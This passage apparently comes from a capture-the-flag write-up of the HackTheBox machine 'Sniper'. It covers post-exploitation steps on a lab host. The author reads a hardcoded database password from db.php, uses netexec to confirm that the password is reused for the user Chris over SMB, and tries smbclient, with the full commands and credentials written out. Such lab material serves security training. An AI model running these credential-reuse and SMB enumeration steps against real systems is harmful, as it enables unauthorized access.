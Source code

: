 After getting the initial shell, while surfing the box with `iis apppool\defaultapppool` user privileges, I notice a file `db.php` which reveals a credentials.
```
C:\inetpub\wwwroot\user>type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>

C:\>cd Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users

04/11/2019  07:04 AM    <DIR>          .
04/11/2019  07:04 AM    <DIR>          ..
04/09/2019  06:47 AM    <DIR>          Administrator
04/11/2019  07:04 AM    <DIR>          Chris
04/09/2019  06:47 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)               0 bytes free

C:\Users>cd Chris
Access is denied.
```

Also the access were denied to the user directory. 

###### `netexec to validate password`
```
┌──(root㉿kali)-[/home/ringbuffer]
└─# netexec smb 10.10.10.151 -u 'chris' -p '36mEAhz/B8xQ~2VM' --shares 
SMB         10.10.10.151    445    SNIPER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\chris:36mEAhz/B8xQ~2VM 
SMB         10.10.10.151    445    SNIPER           [*] Enumerated shares
SMB         10.10.10.151    445    SNIPER           Share           Permissions     Remark
SMB         10.10.10.151    445    SNIPER           -----           -----------     ------
SMB         10.10.10.151    445    SNIPER           ADMIN$                          Remote Admin
SMB         10.10.10.151    445    SNIPER           C$                              Default share
SMB         10.10.10.151    445    SNIPER           IPC$            READ            Remote IPC
```

So the same password is used by the user `Chris` But for this box, there was no `Evil-Winrm` or `impacket-wmiexec` working. So I have Chris's password but no shell access. I was able to access `smbclient -U 'Sniper/Chris%36mEAhz/B8xQ~2VM' //10.10.10.151/IPC$` but it was not revealing anything. The share was empty. 
